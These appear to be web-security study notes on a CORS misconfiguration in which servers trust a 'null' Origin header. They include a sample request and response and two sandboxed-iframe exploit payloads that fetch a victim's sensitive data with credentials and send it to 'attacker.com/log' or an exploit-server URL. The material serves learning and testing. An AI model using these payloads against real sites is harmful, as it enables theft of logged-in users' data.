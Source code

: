 ### Whitelisted Null Origin Value

- origin header supports `null` value, and browsers might send the value `null` in the origin header in various unusual situation.
    1. Cross-site Redirects
    2. Request from serialized data
    3. Request using the `file:` protocol
    4. Sandboxed cross-origin request
- some application whitelist the null origin to support local development of the application.
-`Example:` application receive cross-domain request

```
GET /sensitive-data HTTP/1.1
Host: vuln-web.com
Origin: null

```

got response

```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: null
Access-Conteol-Allow-Credentials: true

```

- attacker cab use various tricks to generate a cross-domain request containing null in `Origin` header by various method
`Example:` by doing `Sandboxed iframe` cross-origin request of the form

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
<script>
var req= new XMLHttpRequest();
req.onload= reqListener;
req.open('get','vuln-web.com/sensitive-data',true);
req.withCredentials = true;
req.send();

function reqListener()
{location='attacker.com/log?key='+this.responseText;
};
</script>"> </iframe>

```

alternate exploit form

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>
   var req = new XMLHttpRequest();
   req.onload = reqListener;
   req.open('get','$url/sensitive-info',true);
   req.withCredentials = true;
   req.send();

   function reqListener() {
       location='$exploit-server-url/log?key='+encodeURIComponent(this.responseText);
   };
</script>"></iframe>

```
